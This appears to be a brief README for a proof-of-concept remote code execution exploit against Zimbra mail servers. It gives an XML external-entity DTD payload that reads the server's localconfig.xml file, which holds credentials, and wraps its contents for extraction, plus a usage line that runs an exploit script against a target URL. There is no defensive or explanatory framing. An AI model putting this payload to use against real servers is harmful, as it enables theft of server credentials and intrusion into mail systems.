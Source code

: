 ###Zimbra_RCE POC

demo.dtd
```xml
<!ENTITY % file SYSTEM "file:../conf/localconfig.xml">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
``` 
useage:
python Zimbra_Rce.py https://target.com

